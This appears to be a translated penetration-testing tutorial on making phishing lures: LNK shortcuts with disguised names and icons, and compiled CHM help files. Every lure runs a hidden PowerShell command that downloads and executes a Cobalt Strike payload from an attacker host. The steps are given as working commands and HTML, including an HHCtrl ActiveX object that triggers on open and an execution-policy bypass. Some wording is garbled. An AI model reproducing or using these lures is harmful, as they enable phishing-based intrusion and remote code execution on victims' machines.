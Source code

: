 # Penetration Test & Phishing Documents

## Documentation link

### link link

​ First create a new listener on `CobaltStrike`, then select Attack->`Web Attack->`Web` Delivery, and create a malicious link for powershell.

```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.50.167:8000/update.exe'))"
```

![](img/1.png)

​ Use the method of unparametered call to execute the malicious link of `powershell`. First create a malicious `dll` file, with the following commands (the command can be executed before the statement in `frp`):

```cmd
# Use the bypass policy in the powershell policy. This method will not change the configuration or require writing to disk, and there will be no warnings or prompts. If you use Unrestricted, there will be warnings when running unsigned scripts downloaded online.
!cmd.exe /k powershell -exec bypass update.ps1
```

![](img/2.png)

​ Then create a shortcut for `ftp.exe`, leaving the starting position of the shortcut blank, the target is `C:\Winodws\System32\ftp.exe -""s:winsupdate.dll`, and the icon and name of the shortcut can be properly disguised.

![](img/4.png)

![](img/3.png)

### link shortcuts

​ First look for the location of `powershell.exe`, select `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` here.

![](img/5.png)

​ I still create a malicious link to the `powershell` link as before, create a `link` shortcut, modify `powershell.exe` to the absolute path, and the target of the shortcut is the following command:

```shell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.50.167:8000/update.exe'))"
```

![](img/6.png)

### chm documentation

​ Use `EasyCHM` to create a `chm` file. The `chm` document phishing file production process is: make `html`->make `chm` file->camouflage->open `chm` to go online.

Create the `html` file, the code is as follows:

```html
<html>
    <head>
        <title>Mousejack replay</title>
    </head>
    <body>
        command exec
        <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
            <PARAM name="Command" value="ShortCut">
            <PARAM name="Button" value="Bitmap::shortcut">
            <PARAM name="Item1" value=',notepad.exe'>
            <PARAM name="Item2" value="273,1,1">
        </OBJECT>
        <SCRIPT>
            x.Click();
        </SCRIPT>
    </body>
</html>
```

​ Then use `EasyCHM` to create a `chm` document, create a new project, and select the folder where the `html` file above is located in the project directory.

![](img/7.png)

​ Click Compile to generate the `chm` file.

![](img/8.png)

![](img/9.png)

​ Try to use the `CobaltStrike` Trojan and `CHM` file to go online. As mentioned above, first create a new listener on `CobaltStrike`, then select Attack->`Web` Attack->`Web` Delivery, and create a malicious link for powershell`. Replace the generated `powershell` command with the previous `notepad.exe`:

```html
<html>
    <head>
        <title>Mousejack replay</title>
    </head>
    <body>
        command exec
        <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
            <PARAM name="Command" value="ShortCut">
            <PARAM name="Button" value="Bitmap::shortcut">
            <PARAM name="Item1" value=",powershell.exe,-nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.103:8078/a'))">
            <PARAM name="Item2" value="273,1,1">
        </OBJECT>
        <SCRIPT>
            x.Click();
        </SCRIPT>
    </body>
</html>
```

​ Then compile the CHM file with the same steps as above and open it and run it.

![](img/10.png)